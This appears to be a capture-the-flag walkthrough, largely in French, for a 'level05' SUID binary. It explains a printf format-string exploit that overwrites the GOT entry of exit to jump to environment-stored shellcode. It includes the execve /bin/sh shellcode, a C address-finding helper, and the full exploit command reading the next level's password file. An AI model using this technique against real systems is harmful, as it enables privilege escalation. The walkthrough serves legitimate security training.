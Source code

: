 # Walkthrough - level05

The program has SUID permissions from the user `level06`, which will allow us to obtain their flag.

# Dissassembly

- Une fonction `fgets` qui lit 100 bytes sur la stdin
- Une boucle `for` qui converti les majuscules en minuscles
- Un `printf` qui affiche la chaine de caractères converti
- Un appel a la fonction `exit`

# Exploit

L'objectif est d'aller réecrite la GOT (Global offset table) de la fonction `exit` pour faire jump la fonction sur un shellcode qui se trouve dans les variables d'env.

Dans ce cas, nous ne pouvons pas utiliser un débordement avec la fonction `fgets`, car elle lit dans un buffer plus grand.

Cependant, `printf` n'a pas de format spécifique, le format utilisé est celui lu à partir de l'entrée standard.

Il existe un formatage spécial avec printf `%n` qui permet de stocker le nombre de caractères imprimés directement dans une adresse.

```c
#include <stdio.h>

int main(void) {
    int a = 0 ;
    printf("Hello world\n%n", &a) ;
    printf("a : %d\n", a) ;
    return 0 ;
}
``` 

```
Hello World
a : 12
```

Nous pouvons alors utiliser le formatage `%n` en passant l'adresse de `m` comme argument pour modifier sa valeur.

Les arguments des fonctions variadiques (comme `printf`) sont passés par la pile et non par les registres. Cela nous permet de vider notre pile en utilisant le format suivant :

``bash
./level05
%08x %08x %08x %08x %08x %08x %08x
```

Maintenant, nous voulons trouver le nombre d'arguments à retirer de la pile avant d'accéder au buffer (`s`).

``bash
./level05
aaaa %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
```

```
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 00000000 ffffffff ffffd774 f7fdb000 61616161 38302520 30252078 25207838
```

Comme indiqué ci-dessus, nous accédons au tampon (`s`) après avoir pop la pile 9 fois (`0x61` correspond à `a` en ASCII).

Ensuite, il nous faut l'addresse qui est déreférencer par la GOT (`exit`), pour cela, on peut utiliser GDB.

```bash
gdb ./level05
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

L'adresse à ré écrire est donc `0x80497e0`.

Maintenant, il nous faut l'adresse d'un shellcode, pour cela nous allons l'injecter dans les variables d'environement et obtenir son adresse avec le script suivant:


```bash
export SHELLCODE=$(python -c 'print("\x90" * 20 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```
 
Il faut bien penser à compiler le programme avec le flag -m32 pour forcer une compilation 32bits.

```bash
gcc /tmp/env_variable.c -m32 -o /tmp/env_variable
/tmp/env_variable SHELLCODE ./level05

```

```bash
SHELLCODE will be at 0xffffd8d5
```

`0xffffd8d5 => 4294957269`

Comme l'adresse est tres très grande, nous allons l'écrire en utilisant deux `%n` en écrivant 4 bytes puis 4 autre bytes.


La premier valeur à stocker est `0xd8d5 = 55509` (comme nous sommes en little endian)

`55509 - 4 - 4 - 4 - 8 * 8 = 55433`

La deuxieme valeur à stocker est `0xffff = 65535`

`65535 - 55509 -  = 10026`


Avec le padding de printf, la commande entière est donc la suivante:

```bash
(python -c 'print("\xe0\x97\x04\x08" + "A" * 4 + "\xe2\x97\x04\x08" + "%08x" * 8 + "%055433x" + "%n" + "%010026x" + "%n")'; echo "cat /home/users/level06/.pass") | ./level05
```
